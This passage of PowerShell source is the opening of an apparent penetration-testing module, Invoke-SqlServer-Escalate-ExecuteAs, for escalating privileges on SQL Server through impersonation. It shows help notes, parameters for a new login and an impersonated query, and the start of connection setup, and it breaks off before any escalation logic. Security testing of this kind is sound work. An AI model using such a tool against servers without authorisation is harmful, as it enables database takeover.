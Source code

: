         .LINK
           http://www.netspi.com
           http://msdn.microsoft.com/en-us/library/ms178640.aspx

        .NOTES
           Author: Scott Sutherland - 2014, NetSPI
           Version: Invoke-SqlServer-Escalate-ExecuteAs.psm1 v1.0
           Comments: This should work on SQL Server 2005 and Above.
           
        .TODO
        fix double run bug
        fix alternative creds connection use
        #>

      [CmdletBinding()]
      Param(
        
        [Parameter(Mandatory=$false,
        HelpMessage='Set SQL Login username.')]
        [string]$SqlUser,
        
        [Parameter(Mandatory=$false,
        HelpMessage='Set SQL Login password.')]
        [string]$SqlPass,

        [Parameter(Mandatory=$false,
        HelpMessage='Set SQL Login username.')]
        [string]$NewUser,
        
        [Parameter(Mandatory=$false,
        HelpMessage='Set SQL Login password.')]
        [string]$NewPass,

        [Parameter(Mandatory=$false,
        HelpMessage='Execute query under impersonated user context.')]
        [string]$Query,

        [Parameter(Mandatory=$true,
        HelpMessage='Set target SQL Server instance.')]
        [string]$SqlServerInstance
        
      )

        # -----------------------------------------------
        # Setup database connection string
        # -----------------------------------------------
        
        # Create fun connection object
        $conn = New-Object System.Data.SqlClient.SqlConnection
        